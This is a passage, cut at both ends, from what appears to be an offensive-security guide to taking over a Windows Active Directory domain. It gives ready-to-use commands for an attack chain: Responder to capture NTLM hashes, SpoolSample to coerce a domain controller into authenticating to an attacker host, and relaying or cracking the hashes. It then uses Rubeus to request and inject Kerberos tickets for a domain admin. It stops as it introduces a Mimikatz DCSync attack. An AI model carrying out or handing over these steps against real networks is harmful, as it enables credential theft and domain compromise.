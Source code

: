 - Set up an SMB listener on the attacker's machine to capture NTLM hashes using **Responder** or **Inveigh**.

   Example with **Responder**:

   ```bash
   python Responder.py -I eth0
   ```

- Use a tool like **SpoolSample** or **MS-RPRN** to force the target (in this case, a Domain Controller or high-privileged user) to authenticate to your attacker-controlled SMB server.

   Example with **SpoolSample**:

   ```bash
   SpoolSample.exe <target_dc> <attacker_ip>
   ```

   This forces the target DC or machine with Print Spooler service enabled to authenticate to your SMB listener.

#### 2. **Crack or Relay NTLM Hashes**

Once the NTLM hash is captured:

- **Relay the NTLM hash** using **ntlmrelayx** to authenticate as the privileged user (such as a domain admin) to other machines in the domain.
- Alternatively, **crack the NTLM hash** using **hashcat** to recover the plaintext password.

#### 3. **Use Rubeus to Get a TGT or Service Ticket**

Once you have the NTLM hash or plaintext password of a privileged account, you can use **Rubeus** to request a **Kerberos TGT** for that account.

- If you have the **NTLM hash**, use Rubeus to request a TGT:

   ```powershell
   Rubeus.exe asktgt /user:<username> /rc4:<NTLM_hash> /domain:<domain> /dc:<dc_ip> /nowrap
   ```

   If you have the **password**:

   ```powershell
   Rubeus.exe asktgt /user:<username> /password:<password> /domain:<domain> /dc:<dc_ip>
   ```

- Inject the obtained **TGT** or **Kerberos service ticket** into your session:

   ```powershell
   Rubeus.exe ptt /ticket:<base64_ticket>
   ```

   This will allow you to impersonate the domain admin or privileged account to access resources within the domain.

#### 4. **Perform DCSync Attack with Mimikatz**

Once you have the necessary domain admin or privileged account credentials, you can use **Mimikatz** to perform a **DCSync** attack. The DCSync attack uses replication privileges to request password hashes from the Domain Controller.
